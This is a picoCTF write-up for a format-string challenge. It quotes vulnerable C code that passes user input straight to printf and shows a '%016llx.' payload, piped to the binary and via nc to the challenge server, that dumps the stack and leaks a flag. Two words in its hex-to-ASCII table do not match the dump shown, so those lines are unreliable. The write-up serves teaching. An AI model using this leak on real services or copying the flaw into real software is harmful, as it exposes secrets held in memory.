 # format string 1 #
 
## Overview ##

100 points

Category: [Binary Exploitation](../)

Tags: `#binaryexploitation #formatstring #infoleak`

## Description ##

Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!

## Approach ##

Inspecting the provided source code 'format-string-1.c' we can see that three files are required to progress through the execution of the challenge, otherwise it terminates early.

Inspecting the buffers these files are read into, we have the following in `main()` :

    char buf[1024];
    char secret1[64];
    char flag[64];
    char secret2[64];

To test locally we must create a dummy flag file:

    $ echo "dummyflag{1234}" > flag.txt

Create the secret menu item files with some readily identifiable data that will fill the associated buffers (`secret1` and `secret2`) to locate them in memory :

    $ echo $(python3 -c 'print("A" * 64)') > secret-menu-item-1.txt
    $ echo $(python3 -c 'print("B" * 64)') > secret-menu-item-2.txt

A quick check of the provided challenge binary `format-string-1` we can see this is a 64-bit executable:

    $ file format-string-1
    format-string-1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=62bc37ea6fa41f79dc756cc63ece93d8c5499e89, for GNU/Linux 3.2.0, not stripped

Further analysis of the source code shows a string is read from the user via standard input of up to 1024 characters using `scanf()` into the destination `buf`, but then prints the buffer without a format specifier.

    ...
    scanf("%1024s", buf);
    printf("Here's your order: ");
    printf(buf);
    ...

Using a typical format string attack to leak information from the stack, with our known input data to locate the `secret1` and `secret2` buffers that surround our target `flag` buffer. This is done by constructing a format string as our user input to print a large series of sequential hexadecimal numbers (in this case 50), with a little formatting to pad and help seperate the values for simplified visual insepction, effectively dumping a region of the stack. As the arguments of a typical format string call would normally be pushed onto the stack as part of the call. Hence without these parameters forming part of the call, `printf()` will attempt to use whatever is on the stack at the respective stack locations as the arguments to be displayed, hence the info leak.

    $ echo $(python3 -c 'print("%016llx." * 50)') | ./format-string-1 
    Give me your order and I'll read it back to you:
    Here's your order: 0000000000402118.0000000000000000.000079dfbe816a00.0000000000000000.00000000007b0c80.4242424242424242.4242424242424242.4242424242424242.4242424242424242.4242424242424242.4242424242424242.4242424242424242.0042424242424242.616c66796d6d7564.0a7d343332317b67.0000000000000000.000079dfbe8b5160.000079dfbe8b5b10.000079dfbe8b5160.00000001be8b78d8.000079dfbe8b54d0.4141414141414141.4141414141414141.4141414141414141.4141414141414141.4141414141414141.4141414141414141.4141414141414141.0041414141414141.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.
    Bye!

Knowing the contents of `secret1` is filled with a string of `A` characters (or `0x41`) and `secret2` is filled with `B` characters (or `0x42`), we can quickly locate this in our stack dump above.

Between these buffers is our `flag` buffer, the start of which can be seen in the 14'th 64-bit word in the dumped stack. 

For verification we may compare the hexadecimal representation of our dummy flag file with the contents of the extracted `flag` buffer, remembering to be mindful of endianess in the comparison.

    $ hd flag.txt 
    00000000  64 75 6d 6d 79 66 6c 61  67 7b 31 32 33 34 7d 0a  |dummyflag{1234}.|

## Solution ##

Repeating the above attack on the picoCTF challenge server to dump the real flag file contents we end up with the following output:

    $ echo $(python3 -c 'print("%016llx." * 50)') | nc mimas.picoctf.net 56961
    Give me your order and I'll read it back to you:
    Here's your order: 0000000000402118.0000000000000000.00007b3c0fb03a00.0000000000000000.0000000000abb880.000000000a347834.00007ffd9692ca70.00007b3c0f8f4e60.00007b3c0fb194d0.0000000000000001.00007ffd9692cb40.0000000000000000.0000000000000000.7b4654436f636970.355f31346d316e34.3478345f33317937.34365f673431665f.007d363131373732.0000000000000007.00007b3c0fb1b8d8.0000002300000007.206e693374307250.00000a336c797453.0000000000000009.00007b3c0fb2cde9.00007b3c0f8fd098.00007b3c0fb194d0.0000000000000000.00007ffd9692cb50.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.2e786c6c36313025.
    Bye!

Manually extracting the 64 characters (or 8 64-bit words) starting from the 14'th word in our dumped stacked data :

    { 7b4654436f636970.355f31346d316e34.3478345f33317937.34365f673431665f.007d363131373732.0000000000000007.00007b3c0fb1b8d8.0000002300000007 }

Converting each byte of these words to ASCII characters, we can see evidence of our flag :

    0x7b4654436f636970 = 7b.46.54.43.6f.63.69.70 = {FTCocip.
    0x355f31346d316e34 = 35.5f.31.34.6d.31.6e.34 = 5_14m1n4
    0x3478345f33317937 = 34.78.34.5f.33.31.79.37 = 4x4_31y7
    0x30355f673431665f = 30.35.5f.67.34.31.66.5f = 05_g41f_
    0x007d343663363933 = 00.7d.34.36.63.36.39.33 =  }46c693

Some minor reconstruction of the string from the dumped little endian words, we have our flag:

    picoCTF{...........redacted.............}

Where the actual flag value has been redacted for the purposes of this write up.